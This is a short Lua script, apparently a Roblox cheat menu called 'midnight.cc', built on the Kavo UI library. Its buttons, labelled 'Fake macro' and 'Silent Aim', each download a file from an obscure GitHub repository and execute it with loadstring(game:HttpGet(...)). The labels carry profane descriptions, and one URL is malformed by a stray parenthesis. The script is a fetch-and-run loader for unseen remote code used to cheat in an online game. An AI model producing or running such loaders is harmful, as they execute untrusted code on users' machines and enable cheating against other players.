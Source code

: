 local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()
local Window = Library.CreateLib("midnight.cc", "Midnight")
local Tab = Window:NewTab("Main")
local Section = Tab:NewSection("Main")
Section:NewButton("Fake macro (C)", "SHUT THE FUCK UP", function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/wiqafuwqufwqu/FWAFAWFSAF/main/README.md"))()
end)
Section:NewButton("Silent Aim", "SHUT THE FUCK UP", function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/wiqafuwqufwqu/FUWQ78C7HAHSJHX/main/README.md)"))()
end)
